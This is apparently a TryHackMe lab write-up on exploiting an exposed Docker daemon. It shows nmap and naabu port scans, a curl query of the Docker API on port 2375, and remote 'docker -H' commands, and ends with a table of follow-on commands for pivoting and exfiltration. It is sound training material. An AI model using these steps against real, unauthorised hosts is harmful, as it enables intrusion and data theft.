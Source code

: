 ```yaml
---
title: "Remote Code Execution via Exposed Docker Daemon"
date: 2024-09-25 10:03:38
categories: [Docker,Try-Hack-Me]
tags: [Docker, THM, TryHackMe]
---
```

&nbsp;

## The Docker Engine -TCP Sockets Edition

Recall how Docker uses sockets to communicate between the host operating system and containers in the previous task. Docker can also use TCP sockets to achieve this.

Docker can be remotely administrated. For example, using management tools such as [Portainer](https://www.portainer.io/) or [Jenkins](https://www.jenkins.io/) to deploy containers to test their code (yay, automation!).

## The Vulnerability

The Docker Engine will listen on a port when configured to be run remotely. The Docker Engine is easy to make remotely accessible but difficult to do securely. The vulnerability here is Docker is remotely accessible and allows anyone to execute commands. First, we will need to enumerate.

Enumerating: Finding Out if a Device Has Docker Remotely Accessible

By default, the engine will run on **port 2375.** We can confirm this by performing an Nmap scan against your target (10.10.62.80) from your AttackBox.

```
[iamroot@parrot]$ nmap -sV -p 2375 10.10.62.80
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-28 21:37 IST
Nmap scan report for 10.10.62.80
Host is up (0.48s latency).

PORT     STATE SERVICE VERSION
2375/tcp open  docker  Docker 20.10.20 (API 1.41)
Service Info: OS: linux

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.58 seconds

```



```
[iamroot@parrot]$ naabu -p - 10.10.62.80

                  __
  ___  ___  ___ _/ /  __ __
 / _ \/ _ \/ _ \/ _ \/ // /
/_//_/\_,_/\_,_/_.__/\_,_/ v2.0.5

		projectdiscovery.io

Use with caution. You are responsible for your actions
Developers assume no liability and are not responsible for any misuse or damage.
[INF] Running CONNECT scan with non root privileges
[INF] Found 3 ports on host 10.10.62.80 (10.10.62.80)
10.10.62.80:2222
10.10.62.80:22
10.10.62.80:2375

```

Looks like it's open; we're going to use the `curl` command to start interacting with the exposed Docker daemon. Confirming that we can access the Docker daemon: `curl http://10.10.62.80:2375/version`


```
[iamroot@parrot]$ curl http://10.10.62.80:2375/version

{"Platform":{"Name":"Docker Engine - Community"},"Components":[{"Name":"Engine","Version":"20.10.20","Details":{"ApiVersion":"1.41","Arch":"amd64","BuildTime":"2022-10-18T18:18:12.000000000+00:00","Experimental":"false","GitCommit":"03df974","GoVersion":"go1.18.7","KernelVersion":"5.15.0-1022-aws","MinAPIVersion":"1.12","Os":"linux"}},{"Name":"containerd","Version":"1.6.8","Details":{"GitCommit":"9cd3357b7fd7218e4aec3eae239db1f68a5a6ec6"}},{"Name":"runc","Version":"1.1.4","Details":{"GitCommit":"v1.1.4-0-g5fd4c4d"}},{"Name":"docker-init","Version":"0.19.0","Details":{"GitCommit":"de40ad0"}}],"Version":"20.10.20","ApiVersion":"1.41","MinAPIVersion":"1.12","GitCommit":"03df974","GoVersion":"go1.18.7","Os":"linux","Arch":"amd64","KernelVersion":"5.15.0-1022-aws","BuildTime":"2022-10-18T18:18:12.000000000+00:00"}

```

## Executing Docker Commands on Our Target

For this, we'll need to tell our version of Docker to send the command to our target (not our own machine). We can add the "-H" switch to our target. To test if we can run commands, we'll list the containers on the target: `docker -H tcp://10.10.62.80:2`

```
[iamroot@parrot]$ docker -H tcp://10.10.62.80:2375 ps

CONTAINER ID   IMAGE        COMMAND               CREATED        STATUS             PORTS                               NAMES
7b7461f9882e   dockertest   "/usr/sbin/sshd -D"   4 months ago   Up About an hour   0.0.0.0:22->22/tcp, :::22->22/tcp   beautiful_pasteur


```

## What Now

Now that we've confirmed that we can execute docker commands on our target, we can do all sorts of things. For example, start containers, stop containers, delete them, or export the contents of the containers for us to analyse further. It is worth recalling the commands covered in [Intro to Docker](https://tryhackme.com/room/introtodockerk8pdqk). However, I've included some commands that you may wish to explore:


| **Command  <br>** | **Description  <br>**                                                                                                                         |
| ----------------- | --------------------------------------------------------------------------------------------------------------------------------------------- |
| network ls        | Used to list the networks of containers, we could use this <br>to discover other applications running and pivot to them <br>from our machine! |
| images            | List images used by containers; data can also be exfiltrated <br>by reverse-engineering the image.                                            |
| exec              | Execute a command on a container.                                                                                                             |
| run               | Run a container.                                                                                                                              |


